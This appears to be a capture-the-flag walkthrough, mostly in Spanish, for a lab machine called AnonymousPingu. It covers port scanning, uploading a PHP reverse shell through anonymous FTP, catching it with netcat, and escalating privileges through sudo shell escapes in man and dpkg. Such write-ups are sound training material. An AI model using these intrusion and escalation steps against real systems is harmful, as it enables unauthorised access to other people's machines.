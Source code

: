 # AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Anon_1.png)

Vemos que parece los ficheros de una pagina web , hay un directrio muy interesante que se llama 
"upload". Posiblemente tengamos que subir algun fichero para hacer una shell reversa.

## Examining the Web Page and Its Infrastructure
Si examinamos la pagina nos esntoramos lo siguiente:

![alt text](Imagenes/Anon_2.png)

Lo mas importante en la barra es el menu "Acceder al backend" si pinchamos nos dirige a la carpeta upload:

## Intrusion

Para hacer la intrusion he usado este script de github de "pentestmonkey"

https://github.com/pentestmonkey/php-reverse-shell

Por lo tanto he usado la herramienta ftp para subir el fichero reverse.php configurando nuestra IP y nuestro puerto
y usando la herrameinta netcat para hacer la conexion.

![alt text](Imagenes/Anon_3.png)

Si nos ponemos en escucha por el puerto 1234 con netcat:

```ruby
nc -lvnp 1234
```

y ejecutamos en el neavegador el archivo .php nos devuleve la shell
![alt text](Imagenes/Anon_4.png)

Por lo tanto estamos autenticados como el usuario "data"

# Tratamiento de la TTY

Para que nos sea más comodo vamos a hacer un tratamiento a la terminal para que no haya errores en algunos comados 
y funcionen.

Para ello lo primero ejecutamos la siguiente orden :

```ruby 
script /dev/null -c bash
```
Pulsamos ctlr + Z salimos de la terminal y hacemos el siguientes comandos:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

tendremos una terminal mas comoda.

## Escalation privilege

Para la escalada de privilegios vamos a utilizar el siguiente comando:
```ruby
sudo -l
``
Vemos los comandos que podemos ejecutar como root u otros usarios usando sudo:
```ruby
$ sudo -l
Matching Defaults entries for www-data on debddace088e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on debddace088e:
    (pingu) NOPASSWD: /usr/bin/man
```

Por lo tanto si ejecutamos la siguiente comando podemos hacerlo como el usuario pingu

```ruby
sudo -u pingu man man
```
Dentro del manual podemos ejecutar la siguiente 
```ruby
!/bin/bash
```
Vemos que nos mudamos de usuario y accedemos como pingu 

![alt text](Imagenes/Anon_5.png)

Si ejecutamos la orden anterior vemos nuevos comandos que podemos ejecutar como el ususario gladys 

```ruby
Matching Defaults entries for pingu on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 34882fa66e15:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg

```

Si vamos a la pagina de GTObins vemos que podemos explotarlar de la siguiente manera:

```ruby
sudo -u gladys dpkg -l
!/bin/sh
```

Ganamos acceso con el usuario "gladys" de forma similar a la anterior.

![alt text](Imagenes/Anon_6.png)


Si volvemos a ejecutar el comando  `sudo -l` 

```ruby
Matching Defaults entries for gladys on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 34882fa66e15:
    (root) NOPASSWD: /usr/bin/chown
```
